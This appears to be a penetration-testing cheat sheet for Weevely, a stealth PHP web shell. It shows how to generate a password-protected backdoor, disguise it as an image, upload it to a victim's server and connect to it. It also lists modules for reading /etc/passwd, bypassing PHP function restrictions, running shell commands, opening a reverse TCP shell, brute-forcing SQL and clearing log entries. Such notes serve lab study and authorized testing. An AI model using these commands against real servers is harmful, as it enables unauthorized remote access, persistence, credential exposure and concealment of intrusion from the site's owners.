

# weevely

Weevely is **a stealth PHP web shell that simulate telnet-like connection**. It is an essential tool for web application post exploitation, and can be used as stealth backdoor or as a web shell to manage legit web accounts, even free hosted ones.

```bash

# Generate backdoor agent
weevely generate <password> <path/to/save/your/phpBackdoorNamefile.php>
#generate is for generating a backdoor
# password to access the file

# Then, you upload the file into the victim's server and use weevely to connect
# Run terminal to the target
 weevely <URL> <password> [cmd]


# Load session file
weevely session <path>


```

Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.

+ Read the [Install](https://github.com/epinna/weevely3/wiki/Install) page to install weevely and its dependencies.
+ Read the [Getting Started](https://github.com/epinna/weevely3/wiki/Getting-Started) page to generate an agent and connect to it.
+ Browse the [Wiki](https://github.com/epinna/weevely3/wiki) to read examples and use cases.


## Example from a lab

Generate a php webshell with [Weevely](weevely.md) and saving it an image:

```
weevely generate secretpassword example.png 
```

Upload it to the application.




Make the connection with weevely:

```
weevely https://example.com/uploads/example.jpg/example.php secretpassword
```


## weevely commands

``` weevely
# Cray for Help
weevely> help
```

In an attack you will probably need:

```
# Read /etc/passwd with different techniques. Nice touch here is that weevely can bypass some restriction introduced in "cat /etc/passwd". For that it uses the attribute -vector
:audit_etcpasswd            
# -vector: posix_getpwuid, file, fread, file_get_contents, base64

# Collect system information
:system_info

# Audit the file system for weak permissions.
:audit_filesystem

# Execute shell commands, BUT the cool part is that it bypasses the inability to run a bash command by tunnelling into a different language command. To see available languages, use the attribute -h
:shell_sh -vector <VectorValue> <Command>
# -vector With attribute vector you can choose to execute bash through php, python...

# Download file from remote filesystem.
:file_download -vector <VECTORValue> <rpath> <lpath>
# -vector: file, fread, file_get_contents, base64
# rpath: remote path of the file you want to download
# lpath: location where you want to save it


# Upload file to remote filesystem.
:file_upload 

# Execute a reverse TCP shell.
:backdoor_reversetcp -shell <SHELLType> -npo-autonnet -vector <VALUEofVector> <LHOST> <LPORT> 
:backdoor_reversetcp -h
```


## weevely complete list of commands

| Module                      | Description  |
| --------------------------- | ------------------------------------------ |
| :audit_filesystem           | Audit the file system for weak permissions. |
| :audit_suidsgid             |  Find files with SUID or SGID flags. |
| :audit_disablefunctionbypass|  Bypass disable_function restrictions with mod_cgi and .htaccess. |
| :audit_etcpasswd            |  Read /etc/passwd with different techniques. |
| :audit_phpconf              |  Audit PHP configuration. |
| :shell_sh                   |  Execute shell commands. |
| :shell_su                   |  Execute commands with su. |
| :shell_php                  |  Execute PHP commands. |
| :system_extensions          |  Collect PHP and webserver extension list. |
| :system_info                |  Collect system information. |
| :system_procs               |  List running processes. |
| :backdoor_reversetcp        |  Execute a reverse TCP shell. |
| :backdoor_tcp               |  Spawn a shell on a TCP port. |
| :bruteforce_sql             |  Bruteforce SQL database. |
| :file_gzip                  |  Compress or expand gzip files. |
| :file_clearlog              |  Remove string from a file. |
| :file_check                 |  Get attributes and permissions of a file. |
| :file_upload                |  Upload file to remote filesystem. |
| :file_webdownload           |  Download an URL. |
| :file_tar                   |  Compress or expand tar archives. |
| :file_download              |  Download file from remote filesystem. |
| :file_bzip2                 |  Compress or expand bzip2 files. |
| :file_edit                  |  Edit remote file on a local editor. |
| :file_grep                  |  Print lines matching a pattern in multiple files. |
| :file_ls                    |  List directory content. |
| :file_cp                    |  Copy single file. |
| :file_rm                    |  Remove remote file. |
| :file_upload2web            |  Upload file automatically to a web folder and get corres |ponding URL.
| :file_zip                   |  Compress or expand zip files. |
| :file_touch                 |  Change file timestamp. |
| :file_find                  |  Find files with given names and attributes. |
| :file_mount                 |  Mount remote filesystem using HTTPfs. |
| :file_enum                  |  Check existence and permissions of a list of paths. |
| :file_read                  |  Read remote file from the remote filesystem. |
| :file_cd                    |  Change current working directory. |
| :sql_console                |  Execute SQL query or run console. |
| :sql_dump                   |  Multi dbms mysqldump replacement. |
| :net_mail                   |  Send mail. |
| :net_phpproxy               |  Install PHP proxy on the target. |
| :net_curl                   |  Perform a curl-like HTTP request. |
| :net_proxy                  |  Run local proxy to pivot HTTP/HTTPS browsing through the | target.
| :net_scan                   |  TCP Port scan. |
| :net_ifconfig               |  Get network interfaces addresses. |
